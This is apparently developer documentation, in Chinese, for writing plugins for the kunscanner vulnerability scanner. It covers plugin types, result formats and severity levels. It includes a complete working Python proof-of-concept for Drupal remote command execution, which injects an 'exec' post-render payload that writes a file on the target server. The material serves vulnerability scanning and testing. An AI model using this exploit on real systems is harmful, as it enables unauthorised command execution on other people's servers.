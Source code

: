 #### 插件类别
插件类别包含两种attack和info，两种插件都返回一个字典作为结果，区别在于两种插件返回字典的内容是不同的

1. attack类型，验证型的漏洞脚本，插件利用结果成功或者失败，所以返回的字典包含两个键，其中success表示是否存在该漏洞
另外一个键是message,表示插件返回的其他信息，例如phpcms_v9的文件上传漏洞，shell地址会作为message返回给扫描器，若存在该漏洞Poc函数的返回结果即为：
```
result['success'] = True
result['message'] = shell_path
```
2. info类型插件，主要作用是返回信息，不是验证是否成功，返回的结果中，每种信息的名字作为key,具体内容作为value,例如通过一个脚本批量获取域名的whois信息和ip地址，那么Poc函数返回的结果为：
```
result['whois'] = whois_data
result['ip']  = ip_address
```
扫描器会根据不同的插件类型对返回信息进行处理，显示信息，存储数据库等。

#### 插件等级
插件等级可以从枚举类SCRIPT_LEVEL中获得，如漏洞为高危
```
from kunscanner.lib.core.enums import SCRIPT_LEVEL
poc_info['level'] = SCRIPT_LEVEL.HIGH
```
### Poc函数包含具体利用代码
如下是Drupal命令执行的例子
```
def Poc(url):
    init_url = url
    socket.setdefaulttimeout(5)
    result = {}
    result['success'] = False
    result['message'] = ''
    try:
        random_str = RandomString()
        url = GetNetloc(url, True)
        target = url + '/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
        payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec',
                   'mail[#type]': 'markup', 'mail[#markup]': 'echo '+random_str+' | tee '+random_str+'.txt'}
        r = requests.post(target, data=payload, timeout = 5)
        if r.status_code != 200:
            return result
        else:
            r = requests.get(url+'/'+random_str+'.txt', timeout = 5)
            if r.status_code == 200 and random_str in r.text and 'html' not in r.text:
                result['success'] = True
                result['message'] = 'random_file: /'+random_str+'.txt'
            return result
    except Exception,e:
        raise PocWarningException(init_url, Info()['name'], repr(e))
```
首先init_url只是保存一份最初始的目标，用于Poc出现异常时的显示,然后创建result字典作为返回结果。
